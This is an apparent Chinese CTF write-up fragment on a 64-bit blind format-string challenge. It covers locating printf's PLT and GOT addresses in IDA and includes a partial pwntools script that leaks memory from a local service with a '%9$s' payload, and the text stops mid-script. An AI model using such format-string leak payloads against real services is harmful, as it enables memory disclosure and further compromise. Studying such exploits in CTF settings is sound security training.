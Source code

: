 ```python
```

ida 加载参数如图：

![](_images/Bilnd_Pwn/20200627120919.png)

通过字符串定位到 main 函数，这里没有识别为函数，需要手动创建函数。在 0x0400826 右键 creat function ，然后就可以反汇编了。

点进 printf@plt ，里面是跳转到 printf@got.plt 指令，也就是从 ida 知道了：

```
printf_plt = 0x4006B0
printf_got_plt = 0x601030
```

解题思路与 32 位一致，利用脚本：

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
# @Author  : MrSkYe
# @Email   : skye231@foxmail.com
# @File    : leakmemory_64_remote.py
from pwn import *
import binascii
context.log_level = 'debug'
p = remote('127.0.0.1',10000)

def leak(addr):
    payload = "%9$s.TMP" + p64(addr)
    p.sendline(payload)
    print "leaking:", hex(addr)
    p.recvuntil('right:')
    resp = p.recvuntil(".TMP")
    ret = resp[:-4:]
    print "ret:", binascii.hexlify(ret), len(ret)
    remain = p.recvrepeat(0.2)
    return ret

printf_plt = 0x4006B0
printf_got_plt = 0x601030

# name
```